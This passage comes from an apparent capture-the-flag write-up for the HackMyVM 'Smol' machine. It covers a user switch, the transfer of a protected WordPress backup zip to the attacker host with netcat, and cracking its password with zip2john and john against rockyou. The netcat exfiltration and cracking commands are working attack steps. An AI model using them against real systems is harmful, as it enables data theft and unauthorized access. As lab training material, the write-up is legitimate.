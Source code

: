 We can see from here that the user Think can switch to Gege without a password. Let's switch to Gege.
```bash
think@smol:/home$ su - gege
gege@smol:~$ ls -l
total 31512
-rwxr-x--- 1 root gege 32266546 Aug 16  2023 wordpress.old.zip
```

Notice  that Gege's home directory contains a backup file zip named `wordpress.old.zip`. This is surely a backup of the WordPress directory. Unfortunately, this file is protected by a password we don't know. 
```bash
gege@smol:~$ unzip wordpress.old.zip 
Archive:  wordpress.old.zip
[wordpress.old.zip] wordpress.old/wp-config.php password: 
<SNIP>
```

We can transfer this file to our attack host and use John to extract the hash of the password used to protect this file and attempt offline cracking.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ nc -lvnp 8000 > wordpress.zip                        
listening on [any] 8000 ...
```

```bash
gege@smol:~$ nc -q 0 10.0.2.16 8000 < wordpress.old.zip 
```

```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ zip2john wordpress.zip  > zip-hash
<SNIP>
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ john hash -wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
<REDACTED> (wordpress.zip)     
1g 0:00:00:00 DONE (2024-10-27 12:36) 1.250g/s 9543Kp/s 9543Kc/s 9543KC/s hesse..hellome2010
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We successfully cracked the password of the zip file. Let's uncompress it and enumerate it for any interesting information.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ unzip wordpress.zip
Archive:  wordpress.zip
   creating: wordpress.old/
[wordpress.zip] wordpress.old/wp-config.php password:
  inflating: wordpress.old/wp-config.php
  inflating: wordpress.old/index.php  
  <SNIP>
  
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ cd wordpress.old 
┌──(pentester㉿kali)-[~/…/HackMyVM/Smol/Misc File/wordpress.old]
└─$ ls
index.php    readme.html      wp-admin            wp-comments-post.php  wp-content   wp-includes        wp-load.php   wp-mail.php      wp-signup.php     xmlrpc.php
license.txt  wp-activate.php  wp-blog-header.php  wp-config.php         wp-cron.php  wp-links-opml.php  wp-login.php  wp-settings.php  wp-trackback.php
```
